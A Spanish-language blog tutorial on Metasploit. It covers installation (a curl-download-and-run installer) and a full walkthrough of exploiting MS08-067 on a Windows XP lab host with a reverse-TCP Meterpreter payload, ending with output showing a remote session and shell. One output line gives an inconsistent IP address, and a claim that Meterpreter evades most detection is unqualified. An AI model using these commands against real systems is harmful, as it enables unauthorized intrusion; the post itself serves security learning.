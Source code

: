 ```yaml
---
layout: post
title: "Framework Metasploit"
date: 2016-11-01 10:26:04 -0500
categories: linux
---
```


El framework Metasploit es una herramienta para desarrollar y ejecutar software con el fin de aprovechar vulnerabilidades de seguridad en sistemas de información remotos.

## Instalación

Actualizamos el software del equipo

    $ sudo apt update

Instalamos Metasploit:

    $ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

Arrancamos el servidor de bases de datos postgresql:

    $ service postgresql start

Iniciamos Metasploit

    $ msfconsole

La primera vez que inciamos el framework, este nos pregunta si queremos usar una base de datos, a lo cual respondemos 'yes'.

## Módulos

Un módulo es una pieza independiente de software que extiende la funcionalidad del framework. Los módulos se clasifican en tipos según su propósito, por ejemplo, cualquier módulo que abre una consola en el objetivo es un módulo de explotación, o **exploit**.

Lo primero que hacemos es cargar el módulo que vamos a utilizar

    msf > use exploit/windows/smb/ms08_067_netapi

Antes de utilizar el módulo debemos ver su descripción:

    msf exploit(ms08_067_netapi) > info

Con esta información podemos identificar:

  * La lista de productos y versiones que presentan la vulnerabilidad que aprovecha el módulo.

  * El tipo de vulnerabilidad y la forma como se aprovecha, así como los posibles efectos secundarios que pueda tener su explotación.

  * Los objetivos que han sido probados. Si el objetivo contra el cual se piensa utilizar el módulo no ha sido probado, es probable que no funcione.

  * Las condiciones que debe cumplir el objetivo para ser vulnerable.

Si el módulo se adapta a nuestras necesidades, a continuación debemos revisar con detalle las opciones:

    msf exploit(ms08_067_netapi) > show options

Los módulos vienen con la mayoría de opciones preconfiguradas, sin embargo se deben revisar y ajustar en caso de que no se ajusten a nuestros requerimientos, como por ejemplo la dirección IP del sistema de información remoto:

    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.5

Si queremos realizar una configuración más detallada, podemos ver más opciones avanzadas o de evasión:

    msf exploit(ms08_067_netapi) > show advanced
    msf exploit(ms08_067_netapi) > show evasion

Cuando un módulo se publica, se envía un pull request al [repositorio de Metasploit en GitHub](https://github.com/rapid7/metasploit-framework), y en este pull request se encuentra toda la información que se necesita saber acerca del módulo.

### Payload

Una vez se obtiene una sesión en la consola del sistema de información remoto por medio de un **exploit**, podemos suministrar piezas de código que se ejecuten en el objetivo comprometido para establecer conexiones y determinar el comportamiento del sistema una vez controlado. Estas piezas de código son los módulos **Payload**.

Uno de los payload más usados es **meterpreter**, el cual proporciona una consola interactiva multifuncional avanzada que permite realizar tareas como descargar archivos, obtener información de usuarios e incluso saltar a otras redes. Este módulo se ejecuta en memoria y es indetectable para la mayoría de sistemas de detección de intrusos.

Las conexiones con el sistema comprometido pueden hacerse de dos maneras: **bind** o **reverse**. En la primera, el sistema comprometido abre un puerto en el cual espera conexiones entrantes, mientras que en el segundo, el sistema comprometido trata de conectarse al equipo atacante, generando conexiones de salida.

Agregamos el módulo Payload `windows/meterpreter/reverse_tcp` a nuestro exploit para que una vez se tenga acceso a la consola del sistema objetivo, este inicie una conexión TCP hacia la máquina atacante y una vez establecida la sesión se controle el equipo utilizando meterpreter.

    msf exploit(ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp

Así como el exploit, este módulo también tiene unas opciones de configuración, que se pueden revisar y ajustar:

    msf exploit(ms08_067_netapi) > show options

En este caso configuramos la dirección IP y el puerto del equipo hacia donde el sistema remoto comprometido debe conectarse:

    msf exploit(ms08_067_netapi) > set LHOST 192.168.0.4
    msf exploit(ms08_067_netapi) > set LPORT 6666

Luego de configurar el **exploit** junto con su **payload**, solo queda decirle a metasploit que ejecute estos módulos:

    msf exploit(ms08_067_netapi) > run

Como resultado obtenemos un acceso no autorizado a un sistema de información remoto por medio de la explotación de una vulnerabilidad:

    [*] Started reverse TCP handler on 192.168.0.4:6666
    [*] 192.168.0.5:445 - Automatically detecting the target...
    [*] 192.168.0.5:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 192.168.0.5:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 192.168.0.5:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (957999 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.0.4:6666 -> 192.168.0.5:1345) at 2016-11-01 20:16:18 -0500

    meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/win32

    meterpreter > ipconfig

    Interface  1
    ============
    Name         : MS TCP Loopback interface
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1520
    IPv4 Address : 127.0.0.1


    Interface  2
    ============
    Name         : Intel(R) PRO/1000 T Server Adapter - Packet Scheduler
    Miniport
    Hardware MAC : 03:1a:c7:78:f3:f7
    MTU          : 1500
    IPv4 Address : 192.168.0.5
    IPv4 Netmask : 255.255.255.0

    meterpreter > shell
    Process 1556 created.
    Channel 1 created.
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>

Fuentes de información:

  * [GitHub Wiki Metasploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-Metasploit-module-appropriately)

  * [Documentación Metasploit Rapid7](https://help.rapid7.com/metasploit/Content/getting-started/gsg-pro.html)
